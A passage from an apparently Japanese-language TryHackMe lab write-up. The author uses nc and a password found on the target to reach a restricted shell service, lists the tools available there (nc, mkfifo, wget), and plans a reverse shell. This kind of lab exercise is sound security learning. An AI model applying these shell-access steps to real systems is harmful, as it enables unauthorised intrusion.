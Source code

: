 # ファイルに記載されたポート+パスワードでアクセスするとリモートアクセス 

```
└─# nc thm_target 4420    
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls
bin
etc
home
lib
lib64
opt
tmp
usr

```

# 怪しいファイルが見つかるも、"Regular shell"で実行しろといわれるので、リバースシェルでリモートアクセスしなおす

- 使えるコマンドが限定されている
```
ls -al bin
total 1520
drwxrwxr-x  2 1001 1001    4096 Apr  2 23:05 .
drwxr-xr-x 10 1001 1001    4096 Apr  3 01:30 ..
-rwxr-xr-x  1 1001 1001 1113504 Apr  1 20:32 bash
-rwxr-xr-x  1    0    0   35064 Apr  1 20:32 cat
-rwxr-xr-x  1    0    0   35000 Apr  1 20:32 echo
-rwxr-xr-x  1    0    0  133792 Apr  1 20:32 ls
-rwxr-xr-x  1    0    0   35312 Apr  2 23:05 nc
-rwxr-xr-x  1    0    0   63704 Apr  1 20:32 rm
-rwxr-xr-x  1    0    0  121432 Apr  1 20:37 sh

ls -al usr/bin
total 648
drwxr-xr-x 2 0 0   4096 Apr  3 01:31 .
drwxr-xr-x 4 0 0   4096 Apr  2 22:43 ..
-rwxr-xr-x 1 0 0  63672 Apr  3 01:20 mkfifo
-rwxr-xr-x 1 0 0  88280 Apr  3 01:31 touch
-rwxr-xr-x 1 0 0 499264 Apr  2 22:43 wget
ls -al usr/lib

```
